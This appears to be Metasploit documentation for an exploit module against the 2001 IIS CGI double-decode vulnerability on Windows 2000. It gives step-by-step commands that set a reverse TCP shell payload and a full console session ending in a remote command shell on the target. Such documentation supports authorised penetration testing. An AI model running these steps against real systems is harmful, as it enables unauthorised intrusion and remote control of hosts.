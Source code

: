 ## Vulnerable Application

This module will execute an arbitrary payload on a Microsoft IIS installation
that is vulnerable to the CGI double-decode vulnerability of 2001.

This module has been tested successfully on:

* Windows 2000 Professional (SP0) (EN)
* Windows 2000 Professional (SP1) (AR)
* Windows 2000 Professional (SP1) (CZ)
* Windows 2000 Server (SP0) (FR)
* Windows 2000 Server (SP1) (EN)
* Windows 2000 Server (SP1) (SE)

Note: This module will leave a Metasploit payload in the IIS scripts directory.

## Verification Steps

1. `use exploit/windows/iis/ms01_026_dbldecode`
1. `set RHOSTS [IP]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options

### WINDIR

The Windows directory name of the target host.
The directory name will be detected automatically if not set.

### DEPTH

Traversal depth to reach the drive root (default: `2`)

## Scenarios

### Windows 2000 Server (SP0) (FR)

```
msf6 > use exploit/windows/iis/ms01_026_dbldecode
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/iis/ms01_026_dbldecode) > set rhosts 192.168.200.175
rhosts => 192.168.200.175
msf6 exploit(windows/iis/ms01_026_dbldecode) > check
[+] 192.168.200.175:80 - The target is vulnerable. Found Windows directory name: winnt
msf6 exploit(windows/iis/ms01_026_dbldecode) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf6 exploit(windows/iis/ms01_026_dbldecode) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Using Windows directory "winnt"
[*] Copying "\winnt\system32\cmd.exe" to the IIS scripts directory as "EcFJ.exe"...
[*] Command Stager progress -  66.67% done (40/60 bytes)
[*] Command Stager progress - 100.00% done (60/60 bytes)
[*] Triggering payload "qQErEZeB.exe" via a direct request...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.175
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.175:1090) at 2022-06-28 08:34:32 -0400
[!] This exploit may require manual cleanup of 'qQErEZeB.exe' on the target


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----
          

c:\inetpub\scripts>hostname
hostname
win2k-srv-fr
```
